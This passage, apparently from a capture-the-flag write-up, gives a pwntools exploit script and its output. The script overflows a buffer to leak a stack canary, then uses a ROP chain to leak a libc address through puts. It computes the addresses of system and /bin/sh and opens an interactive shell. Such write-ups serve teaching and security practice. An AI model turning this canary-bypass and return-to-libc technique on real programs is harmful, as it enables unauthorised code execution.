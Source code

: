 ```
#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt)
target.sendline(leak_payload)
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))

#Calculate the address of system and /bin/sh
system = puts_leak - 0x2b280
binsh = puts_leak + 0x11a320
log.info("system: " + hex(system))
log.info("binsh:  " + hex(binsh))

#drop to an interactive shell
target.interactive()
```

when we run it:

```
[*] puts_leak: 0x7f83bac8a920
[*] system: 0x7f83bac5f6a0
[*] binsh:  0x7f83bada4c40
[*] Switching to interactive mode
```
